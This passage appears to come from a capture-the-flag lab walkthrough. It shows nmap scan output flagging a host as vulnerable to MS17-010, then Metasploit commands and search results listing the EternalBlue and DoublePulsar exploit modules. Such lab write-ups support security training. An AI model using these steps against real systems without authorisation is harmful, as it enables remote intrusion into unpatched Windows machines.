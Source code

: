     |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

    NSE: Script Post-scanning.
    NSE: Starting runlevel 1 (of 2) scan.
    Initiating NSE at 02:34
    Completed NSE at 02:34, 0.00s elapsed
    NSE: Starting runlevel 2 (of 2) scan.
    Initiating NSE at 02:34
    Completed NSE at 02:34, 0.00s elapsed
    Read data files from: /usr/bin/../share/nmap
    Nmap done: 1 IP address (1 host up) scanned in 131.83 seconds
    Raw packets sent: 1402 (61.664KB) | Rcvd: 1006 (40.264KB)

We can see that it is vulnerable to ms17-010.

## [Task 2] Gain Access

### 1 Start Metasploit

Just type in:

    $ msfconsole

### 2 Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

    search ms17-010

    msf5 > search ms17-010

    Matching Modules
    ================

    #  Name                                           Disclosure Date  Rank     Check  Description
     -  ----                                           ---------------  ----     -----  -----------
     0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
     1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
     2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
     3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
     4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
     5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
